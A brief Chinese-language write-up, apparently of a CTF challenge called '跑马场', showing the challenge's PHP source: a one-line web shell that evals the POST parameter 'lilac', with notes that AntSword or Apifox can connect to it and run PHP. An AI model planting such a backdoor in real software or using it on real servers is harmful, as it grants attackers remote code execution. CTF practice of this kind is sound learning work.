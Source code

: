 # 跑马场

那个是直接给了密码是 lilac (这个可以用 antsword 连接)

```php
<?php // 真正的强者，敢于把自己的马送给别人  
highlight_file(__FILE__);  
  
@eval($_POST['lilac']);
```

ifyoulike apifox 可以发送名为 lilac 的参数，eval 会执行 php 语句

![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240805231725.png)
